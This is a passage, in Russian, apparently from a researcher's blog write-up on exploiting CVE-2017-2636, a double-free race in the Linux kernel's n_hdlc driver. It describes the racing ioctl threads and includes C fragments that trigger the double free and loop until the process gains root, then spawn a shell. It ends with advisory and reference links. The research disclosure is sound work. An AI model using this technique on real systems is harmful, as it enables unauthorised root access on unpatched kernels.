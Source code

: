 Теперь мы приостанавливаем вывод данных псевдотерминала (см. `man tty_ioctl`) и пишем в него один буфер. Функция `n_hdlc_send_frames()` не может выполнить отправку данного буфера и сохраняет его адрес в `n_hdlc.tbuf`.

Все готово, попытаемся воспроизвести состояние гонки. Запускаем два потока, которые могут исполняться на всех доступных ядрах процессора:
 - поток 1 сбрасывает данные псевдотерминала с помощью `ioctl(ptmd, TCFLSH, TCIOFLUSH)`;
 - поток 2 возобновляет приостановленный вывод с помощью `ioctl(ptmd, TCXONC, TCOON)`.

У этих потоков есть шанс дважды поместить в `tx_free_buf_list` тот единственный буфер, который был записан в псевдотерминал.

Теперь возвращаем исполнение эксплойта на нулевое ядро процессора и вызываем возможную ошибку двойного освобождения памяти:

{% highlight c %}
	ret = sched_setaffinity(0, sizeof(single_cpu), &single_cpu);
	if (ret != 0) {
		perror("[-] sched_setaffinity");
		goto end;
	}

	ret = close(ptmd);
	if (ret != 0) {
		perror("[-] close /dev/ptmx");
		goto end;
	}
{% endhighlight %}

Мы закрыли псевдотерминал. Функция `n_hdlc_release()` проходит по спискам `n_hdlc_buf_list` и освобождает память, занятую под буферы `n_hdlc_buf`. Если мы выиграли гонку, то здесь должно произойти двойное освобождение памяти (double-free error).

Эта ошибка успешно обнаруживается с помощью Kernel Address Sanitizer ([KASAN][19]), который сообщает о ней как об использовании после освобождения (use-after-free), происходящем прямо перед вторым вызовом `kfree()`.

Завершающая часть главного цикла:

{% highlight c %}
	ret = exploit_skb(socks, sockaddrs, payload, loop % SOCK_PAIRS);
	if (ret != EXIT_SUCCESS)
		goto end;

	if (getuid() == 0 && geteuid() == 0) {
		printf("[+] race #%ld: WIN! flush(%ld), TCOON(%ld)\n",
						loop, tmo1, tmo2);
		break; /* :) */
	}

	loop++;
}

printf("[+] finish as: uid=0, euid=0, start sh...\n");
run_sh();
{% endhighlight %}


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[21.1]: https://ru.wikipedia.org/wiki/Heap_spraying
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/